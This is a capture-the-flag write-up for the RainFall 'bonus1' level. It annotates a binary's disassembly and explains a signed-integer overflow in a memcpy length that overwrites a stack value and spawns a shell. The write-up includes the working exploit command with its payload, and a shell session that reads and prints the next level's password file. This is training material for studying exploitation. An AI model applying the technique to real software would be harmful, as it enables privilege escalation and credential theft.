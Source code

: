 [README](../README.md)
# bonus 1

```
bonus1@RainFall:~$ ./bonus1 
Segmentation fault (core dumped)
bonus1@RainFall:~$ ./bonus1 a
```
The program expect at least 1 argument
## Disassembly

```
0x08048424 <+0>:	push   %ebp
0x08048425 <+1>:	mov    %esp,%ebp
0x08048427 <+3>:	and    $0xfffffff0,%esp
0x0804842a <+6>:	sub    $0x40,%esp           // Allocate 64 bytes on the stack
0x0804842d <+9>:	mov    0xc(%ebp),%eax       // Get the 1st arg - argv[0]
0x08048430 <+12>:	add    $0x4,%eax            // move the address to argv[1]
0x08048433 <+15>:	mov    (%eax),%eax          // dereference argv[1] and store it value in eax
0x08048435 <+17>:	mov    %eax,(%esp)
0x08048438 <+20>:	call   0x8048360 <atoi@plt> // call atoi with eax value moved to the top of the stack
0x0804843d <+25>:	mov    %eax,0x3c(%esp)      // move the return value of atoi at on offset of 0x3c from esp 
0x08048441 <+29>:	cmpl   $0x9,0x3c(%esp)      // compare (less) this value to 9 decimal
0x08048446 <+34>:	jle    0x804844f <main+43>  // if argv[1] <= 9 then jumps
0x08048448 <+36>:	mov    $0x1,%eax            // return value = 1
0x0804844d <+41>:	jmp    0x80484a3 <main+127> // otherwise go the end of main function
0x0804844f <+43>:	mov    0x3c(%esp),%eax      // move atoi(argv[1]) into eax 
0x08048453 <+47>:	lea    0x0(,%eax,4),%ecx    // ecx = 4 * eax
0x0804845a <+54>:	mov    0xc(%ebp),%eax       // move the addr 0xc above ebp into eax
0x0804845d <+57>:	add    $0x8,%eax            // add 0x8 to eax
0x08048460 <+60>:	mov    (%eax),%eax          // dereference eax
0x08048462 <+62>:	mov    %eax,%edx            // edx = eax
0x08048464 <+64>:	lea    0x14(%esp),%eax      // ax = esp + 0x14 (destination address for memcpy)
0x08048468 <+68>:	mov    %ecx,0x8(%esp)       // move ecx to offset 0x8 from esp (size parameter for memcpy)
0x0804846c <+72>:	mov    %edx,0x4(%esp)       // move edx to offset 0x4 from esp (source address for memcpy)
0x08048470 <+76>:	mov    %eax,(%esp)          // move eax to the top of the stack (destination address for memcpy)
0x08048473 <+79>:	call   0x8048320 <memcpy@plt>   // memcpy(dest = 0x14(esp) , source = edx, num = ecx)
0x08048478 <+84>:	cmpl   $0x574f4c46,0x3c(%esp)   // compare a constant value to the result of atoi(argv[1])
0x08048480 <+92>:	jne    0x804849e <main+122>     // if not equal, jump to the failure condition
0x08048482 <+94>:	movl   $0x0,0x8(%esp)           // set argument 3 of execl to 0 (end of arguments)
0x0804848a <+102>:	movl   $0x8048580,0x4(%esp)     // set argument 2 of execl to "/bin/sh"
0x08048492 <+110>:	movl   $0x8048583,(%esp)        // set argument 1 of execl to "sh"
0x08048499 <+117>:	call   0x8048350 <execl@plt>    // execl("/bin/sh", "sh", 0)
0x0804849e <+122>:	mov    $0x0,%eax                // return value = 0
0x080484a3 <+127>:	leave  
0x080484a4 <+128>:	ret  
```


## Exploit
The first condition requires `atoi(argv[1])` to be less than 10.
- we can use any negative integer

Later the value of `atoi(argv[1])` will be multiplied by 4 and used as `n` parameter of `memcpy` giving the amount of bytes to copy.

The last condition check if the value of `atoi(argv[1])` is strictly equal to `0x574f4c46` -> decimal 1464814662

The buffer size used for the destination string of memcpy can be calculated:
- `0x14(%esp)` is used as the destination address for the memcpy function. This means that str starts at an offset of 0x14 from the esp register.
-  Since the stack frame size is `0x40` bytes `(sub $0x40,%esp)`, and str starts at an offset of 0x14, we can calculate the size of str as `0x40 - 0x14 = 0x2C` bytes -> 44 in decimal

```
(gdb) run 9 aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
0x08048326 in memcpy@plt ()
(gdb) finish
Run till exit from #0  0x08048326 in memcpy@plt ()
0x08048478 in main ()
(gdb) x/30w $esp
0xbffff6b0:     0xbffff6c4      0xbffff8d0      0x00000024      0x080482fd
0xbffff6c0:     0xb7fd13e4      0x61616161      0x61616161      0x61616161
0xbffff6d0:     0x61616161      0x61616161      0x61616161      0x61616161
0xbffff6e0:     0x61616161      0x61616161      0x080484b9      0x00000009
0xbffff6f0:     0x080484b0      0x00000000      0x00000000      0xb7e454d3
```
Using 9*4 in `memcpy` we fill the str with only `a` char `61 ASCII`
Our int contains the value `0x00000009` and is located 40 bytes after the start of our string buffer.
The size of the buffer is 40 bytes.

The str is above the stored int value, if we can use `memcpy` with 44 bytes we can overwrite the value of the int.

We need to be able to copy 44 bytes, the value of `argv[1]` should be:
`-2147483637` which will give us 44 when multiplied by 4.

```
./bonus1 -2147483637 $(python -c 'print "A" * 40 + "\x46\x4c\x4f\x57"')
$ whoami
bonus2
$ pwd
/home/user/bonus1
$ cd ../bonus2
$ cat .pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```
